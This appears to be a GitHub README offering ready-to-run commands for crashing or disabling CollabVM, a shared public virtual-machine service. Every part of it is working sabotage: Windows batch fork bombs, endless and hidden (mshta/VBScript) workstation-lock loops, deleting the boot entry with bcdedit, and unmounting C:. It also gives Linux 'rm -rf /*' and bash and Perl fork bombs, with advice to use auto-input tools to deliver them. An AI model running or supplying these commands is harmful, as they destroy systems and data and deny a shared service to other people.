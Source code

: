 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Hidden infinite blocking the windows user (not a forkbomb). Unclosable, Perfect way to block VM, only reboot helps.
```batch
cmd /c mshta vbscript:(CreateObject("WScript.Shell").Run("cmd /k for /l %x in (1, 1, 999999) do rundll32 user32,LockWorkStation """,0))(Window.Close)
```

4. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd started as admin (RMB on cmd -> Run as admin).

```batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
```

5. Unmount primary C:\ drive. If you execute this command **as admin**, users will be can't run any program anymore.

```batch
mountvol c: /d
```

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

```bash
sudo rm -rf /*
```

2. Bash fork bomb. May not work due to fork restrictions.

```bash
:(){ :|:& };:
```

3. Perl fork bomb. May not work due to fork restrictions.

```bash
perl -e "fork while fork" &
```

